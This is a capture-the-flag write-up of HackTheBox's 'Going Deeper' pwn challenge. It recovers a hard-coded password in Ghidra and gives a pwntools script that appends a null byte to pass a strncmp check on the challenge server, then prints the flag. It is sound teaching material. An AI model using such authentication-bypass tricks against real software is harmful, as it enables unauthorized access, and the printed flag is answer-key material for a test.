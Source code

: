 ```yaml
---
layout: default
title: Going Deeper | Cyber Apocalypse CTF 2022 from HackTheBox
---
```

# [Cyber Apocalypse CTF 2022 from HackTheBox](../) - Space Pirate: Going Deeper

* **Category:** Pwn
* **Points:** 300 points

## Challenge

> We are inside D12! We bypassed the scanning system, and now we are right in front of the Admin Panel. The problem is that there are some safety mechanisms enabled so that not everyone can access the admin panel and become the user right below Draeger. Only a few of his intergalactic team members have access there, and they are the mutants that Draeger trusts. Can you disable the mechanisms and take control of the Admin Panel?

## TL;DR
Find the password `DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft` in ghidra, and send a null byte at the end due to the use of `strncmp`.

## Solution

There are two paths here. The first is I believe doing some type of ROP to override the safety mechanisms values of `a`, `b`, `c` to `0xdeadbeef`, `0xdeadc0de`, and `0x1337beef`.

I took the second path, which was just to enter in the password.

```
[*] Safety mechanisms are enabled!
[*] Values are set to: a = [1], b = [2], c = [3].
[*] If you want to continue, disable the mechanism or login as admin.

1. Disable mechanisms ⚙️
2. Login ✅
3. Exit 🏃
>> 

```

Taking a look in ghidra, we can see the logic and the password.
![decompiled code](deeper-decompiled.png)

As the function used here is `strncmp`, it will continue comparison of the string until it hits a certain number of characters, or a null byte. So sending a null byte appended to `DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft` should get us through to the flag.

I did this through a quick python script using pwntools:
```python
from pwn import *

#p = process('./sp_going_deeper')
p = remote('64.227.37.154','31439')
for i in range(42):
    p.readline() # Read until the prompt
p.sendline('2') # Login
p.readline() # Read to prompt
p.sendline(b'DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft\x00')
print(p.readuntil('}')) # Read to end of flag
```

```
>> python3 exploit.py
[+] Opening connection to 64.227.37.154 on port 31439: Done
b'[*] Username: \n\x1b[1;32m[+] Welcome admin! The secret message is: HTB{n0_n33d_2_ch4ng3_m3ch5_wh3n_u_h4v3_fl0w_r3d1r3ct}'
[*] Closed connection to 64.227.37.154 port 31439
```

```
HTB{n0_n33d_2_ch4ng3_m3ch5_wh3n_u_h4v3_fl0w_r3d1r3ct}
```
